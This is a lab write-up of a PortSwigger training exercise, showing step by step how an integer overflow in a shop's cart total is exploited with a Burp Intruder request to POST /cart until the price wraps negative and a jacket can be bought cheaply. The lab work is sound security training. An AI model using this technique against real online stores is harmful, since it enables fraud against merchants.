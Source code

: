 #+title: Low-level logic flaw
#+author: [[https://github.com/touhidulshawan][Touhidul Shawan]]
#+description: Bussiness Logic Vulnerabilities Labs from Portswigger
#+date: 2023-09-16 Sat
#+options: toc:2

* Table of Contents :toc:
- [[#lab-contain][Lab contain]]
  - [[#test-account][Test account]]
- [[#end-goal][End Goal]]
- [[#exploit][Exploit]]
  - [[#request-on-intruder][Request on intruder]]
  - [[#next-step][Next Step]]

* Lab contain
+ Logic flaw in item purchasing workflow
** Test account
       - username: =wiener=
       - password: =peter=
* End Goal
+ Exploit the flaw and buy "Lightweight l33t leather jacket"
* Exploit
- Access the lab
- Login to account with credentials
- Add targeted product to cart & send this request to repeater
- Try to add 100 quantity of this product see that reponse, it gives an error =400 bad request: "Invalid parameter: quantity"=
- So, we can not add more that 99 quantity of same product in cart
- Now send this request to intruder
** Request on intruder
#+begin_src 
POST /cart HTTP/2
Host: 0ab900dc03193e9d8011622a0055000f.web-security-academy.net
Cookie: session=WVtu3kKlcJITf3kqc2byIVQLbdUvExRp
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 38
Origin: https://0ab900dc03193e9d8011622a0055000f.web-security-academy.net
Referer: https://0ab900dc03193e9d8011622a0055000f.web-security-academy.net/product?productId=1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

productId=1&redir=PRODUCT&quantity=§99§ 
#+end_src
Start attack with =Null payloads= and from payload settings select =Continue indefinitely=
- Go to cart page and refresh time to time to see the changes
- See that price increasing with large quantity. But price suddenly switches to large negative number start counting up towards 0
- Stop the attack
  
** Next Step
- Clear the cart
- Now create same intruder attack but generate exactly payload =323= and select Maximum concurrent request to 1
- When attack finishes, go to =POST/cart= from repeater and send a single request for =47= jackets. Total price should be now =-$1221.96=
- Now add another suitable prodcut to cart so that the total falls between 0 to 100
- Place order to solve the lab
  
